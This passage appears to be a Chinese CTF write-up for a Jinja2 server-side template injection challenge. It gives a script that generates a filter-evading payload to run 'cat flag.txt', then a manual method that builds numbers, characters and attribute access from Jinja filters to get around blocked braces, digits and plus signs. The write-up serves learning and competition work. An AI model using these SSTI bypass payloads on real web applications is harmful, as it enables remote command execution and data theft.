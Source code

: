 		  url = "http://你猜:是啥"
		  
		  @functools.lru_cache
		  def waf(s):
		      r = requests.post(url, data = {
		          "talk": s
		      })
		      return "ARE NOT" not in r.text
		  
		  payload = ssti.shell_cmd(waf, "cat flag.txt")
		  
		  print(payload)
		  ```
		- 把Payload交上去就行
	- ## 解法二
		- 手动分析：
		- ### 双花括号
			- `{{}}`被禁
			- 使用`{%print(XXX)%}`
		- ### 任意数字
			- 加号和所有数字都被禁
			- 这样可以构建出一部分数字：
				- ```python
				  {%set ltr={}|escape|urlencode|list|escape|urlencode|count%}
				  {%set lel=cycler|escape|urlencode|escape|urlencode|escape|urlencode|escape|urlencode|count%}
				  {%set bs=cycler|escape|urlencode|count%}
				  {%set zb={}|escape|list|escape|count%}
				  {%set b={}|escape|urlencode|count%}
				  {%set l={}|escape|first|count%}
				  ```
				- 这些数字代表：
					- ```python
					  d = {
					      "ltr": 178,
					      "lel": 131,
					      "bs": 65,
					      "zb": 26,
					      "b": 6,
					      "l": 1,
					  }
					  ```
			- 然后用大数减去小数的方式构建出任意不是太大的数字
				- `ltr-l-l-l`
		- ### `%c`
			- 使用`cycler|pprint|list|pprint|urlencode|batch(10)|first|join|batch(8)|list|last|reverse|join|lower`
			- 其中的数字使用上面的绕过
		- ### 任意字符串
			- 使用`'%c'*3%(97,97,97)`
		- ### 属性
			- 使用`|attr()`
		- ### 物品
			- 使用`|attr('__getitem__')()`
		- ### ^^最终Payload^^
			- ```python
			  before = """
			  {%set ltr={}|escape|urlencode|list|escape|urlencode|count%}
			  {%set lel=cycler|escape|urlencode|escape|urlencode|escape|urlencode|escape|urlencode|count%}
			  {%set bs=cycler|escape|urlencode|count%}
			  {%set zb={}|escape|list|escape|count%}
			  {%set b={}|escape|urlencode|count%}
			  {%set l={}|escape|first|count%}
			  """
			  